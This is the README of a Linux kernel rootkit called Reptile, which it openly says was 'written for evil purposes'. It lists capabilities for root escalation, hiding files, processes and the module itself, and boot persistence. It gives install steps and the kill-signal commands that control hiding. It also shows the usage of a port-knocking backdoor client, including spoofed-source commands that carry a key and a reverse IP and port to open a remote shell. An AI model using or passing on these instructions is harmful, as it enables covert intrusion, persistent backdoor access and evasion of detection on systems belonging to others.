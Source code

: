 # Reptile

<img align="left" src="https://imgur.com/nqujOlz.png">

<br><br><br>Reptile is a LKM rootkit written for evil purposes that runs on kernel 2.6.x/3.x/4.x. Probably is the best that you will find public on the Internet.<br>

If you are searching stuff only for study purposes, see the [demonstration codes](https://github.com/f0rb1dd3n/papers/tree/master/rootkit_demonstration).<br><br><br>

## Features

- Give root to unprivileged users
- Hide files and directories
- Hide files contents
- Hide processes
- Hide himself
- Boot persistence
- Heaven's door - A ICMP/UDP/TCP port-knocking backdoor
- Client to knock on heaven's door :D
   
## Roadmap

- Socket/Packet hiding
- Port-knocking backdoor in kernel land
 
## Install
```
apt-get install linux-headers-$(uname -r)
https://github.com/f0rb1dd3n/Reptile.git
cd Reptile
./installer.sh install
```
## Uninstall
```
./install.sh remove
```

## Usage

Binaries will be copied to `/reptile` folder, that will be hidden by Reptile.

### Getting root privileges

<p align="center">
   <img src="https://i.imgur.com/sfbpHQu.png">
</p>

### Hiding

- Hide/unhide reptile module: `kill -50 0`
- Hide/unhide process: `kill -49 <PID>`
- Hide files contents: `kill -51 0` and all content between the tags will be hidden

Example:
```
#<reptile> 
content to hide 
#</reptile>
```

### Knocking on heaven's door

Heaven's door is a ICMP/UDP/TCP port-knocking backdoor used by Reptile. To access the backdoor you can use the client: 
```
Knock Knock on Heaven's (Back)Door
Written by: F0rb1dd3n

Usage: ./knock <args>

-x      Protocol (ICMP/UDP/TCP)
-s      Source IP address (You can spoof)
-t      Target IP address
-p      Source Port
-q      Target Port
-d      Data to knock on backdoor: "<key> <reverse IP> <reverse Port>"
-l      Launch listener

[!] ICMP doesn't need ports

ICMP: ./knock_on_heaven -x icmp -s 192.168.0.2 -t 192.168.0.3 -d "F0rb1dd3n 192.168.0.4 4444" -l
UDP:  ./knock_on_heaven -x udp  -s 192.168.0.2 -t 192.168.0.3 -p 666 -q 53 -d "F0rb1dd3n 192.168.0.4 4444" -l
TCP:  ./knock_on_heaven -x tcp  -s 192.168.0.2 -t 192.168.0.3 -p 666 -q 80 -d "F0rb1dd3n 192.168.0.4 4444" -l

```
<p align="center">
   <img src="https://i.imgur.com/zvFWuXT.png">
</p>

## Disclaimer

Some functions of this module is based on another rootkits. Please see the references!

## References

- “[LKM HACKING](http://www.ouah.org/LKM_HACKING.html)”, The Hackers Choice (THC), 1999;
- https://github.com/mncoppola/suterusu
- https://github.com/m0nad/Diamorphine.git
- https://github.com/David-Reguera-Garcia-Dreg/enyelkm.git
- https://github.com/maK-/maK_it-Linux-Rootkit
- “[Abuse of the Linux Kernel for Fun and Profit](http://phrack.org/issues/50/5.html)”, Halflife, Phrack 50, 1997;
- https://ruinedsec.wordpress.com/2013/04/04/modifying-system-calls-dispatching-linux/

## Contributing

I am open to receiving contributions. If you can contribute with this project, discuss the contribution via e-mail or open an issue, fork the project and make a pull request. I will evaluate pull requests and merge to the project. 

I will consider writing new features with contribution to my BTC Wallet: `1ASRMARFrpSanLHXCdNHD7K7pvr1fbK2fb`

<p align="center">
   <img src="https://imgur.com/RdYgb1T.gif">
</p>
